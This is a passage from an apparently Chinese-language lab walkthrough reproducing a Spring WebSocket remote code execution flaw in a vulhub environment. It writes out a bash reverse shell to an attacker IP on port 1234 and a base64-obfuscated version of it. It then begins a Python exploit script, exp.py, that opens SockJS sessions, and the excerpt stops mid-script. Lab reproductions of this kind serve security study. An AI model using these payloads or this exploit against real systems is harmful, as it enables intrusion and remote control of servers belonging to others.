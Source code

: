 开启漏洞

![](https://gitee.com/fuli009/images/raw/master/public/20210903083059.png)image-20210829215634535![](https://gitee.com/fuli009/images/raw/master/public/20210903083100.png)image-20210829215721412

访问该页面：

    
    
    http://192.168.173.144:8080/gs-guide-websocket  
    

![](https://gitee.com/fuli009/images/raw/master/public/20210903083101.png)image-20210829220006857

#### 漏洞复现

对反弹shell的命令base64编码：

    
    
    bash -i >& /dev/tcp/192.168.173.133/1234 0>&1  
      
    bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3My4xMzMvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}  
    

创建exp.py,自行修改ip和命令语句：

    
    
    #!/usr/bin/env python3  
    import requests  
    import random  
    import string  
    import time  
    import threading  
    import logging  
    import sys  
    import json  
      
    logging.basicConfig(stream=sys.stdout, level=logging.INFO)  
      
    def random_str(length):  
        letters = string.ascii_lowercase + string.digits  
        return ''.join(random.choice(letters) for c in range(length))  
      
      
    class SockJS(threading.Thread):  
        def __init__(self, url, *args, **kwargs):  
            super().__init__(*args, **kwargs)  
            self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'  
            self.daemon = True  
            self.session = requests.session()  
            self.session.headers = {  
                'Referer': url,  
                'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'  
            }  
            self.t = int(time.time()*1000)  
      
        def run(self):  
            url = f'{self.base}/htmlfile?c=_jp.vulhub'  
            response = self.session.get(url, stream=True)  
            for line in response.iter_lines():  
                time.sleep(0.5)  
          